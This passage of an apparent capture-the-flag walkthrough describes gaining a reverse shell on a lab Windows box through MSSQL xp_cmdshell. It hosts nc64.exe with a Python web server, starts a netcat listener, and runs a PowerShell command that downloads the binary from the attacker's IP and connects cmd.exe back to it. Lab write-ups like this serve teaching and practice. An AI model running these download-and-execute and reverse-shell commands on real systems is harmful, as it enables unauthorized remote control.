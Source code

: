 Then I tried several one-liner reverse shells for powershell, but didn't have anyluck. So, I reverted back to the `netcat` binary ([nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)) to spin up a reverse shell.

To host this file to the box: 
```shell {linenos=false}
$ python3 -m http.server
```

Additionally, start `nc` locally for the reverse shell: 
```shell {linenos=false}
$ nc -lvnp 1337
```

Download the binary and run: 

```shell {linenos=false}
$ xp_cmdshell "powershell.exe cd c:\Users\Public; wget http://10.10.14.232:8000/nc64.exe -outfile nc64.exe; .\nc64.exe -e cmd.exe 10.10.14.232 1337"
```

![rs](/img/tier2/rs.png)
